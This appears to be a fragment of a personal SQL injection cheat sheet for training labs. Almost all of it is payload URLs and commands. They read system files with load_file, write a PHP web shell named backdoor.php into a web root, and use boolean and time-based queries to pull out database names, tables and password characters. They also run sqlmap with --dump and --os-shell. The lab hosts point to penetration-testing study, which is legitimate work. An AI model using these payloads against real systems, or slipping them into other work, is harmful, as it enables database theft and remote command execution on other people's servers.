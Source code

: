 3. to command execution

```
http://10.11.0.22/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')


http://10.11.0.22/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

4. Boolean Based

```
for API endpoint
https://website.thm/checkuser?username=admin123' union select 1;--
https://website.thm/checkuser?username=admin123' union select 1,2;--
https://website.thm/checkuser?username=admin123' union select 1,2, 3;--  --> returns true as response

https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3 where database() like 's%';--  --> db name triversing

https://website.thm/checkuser?username=admin123' union select 1,2,3 from information_schema.tables where table_schema = 'sqli_three' and table_name like 'users';

https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';

https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
```

5. Time bases SQLi

```
trst: admin123' UNION SELECT SLEEP(5);--`

referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--

admin' AND sleep(10);-- -
```

God bless

```
sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id"

sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --dump

sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --os-shell
```


Practise in labs

```
C:\tools\web_attacks> java -jar gadgets-1.0.0.jar
```
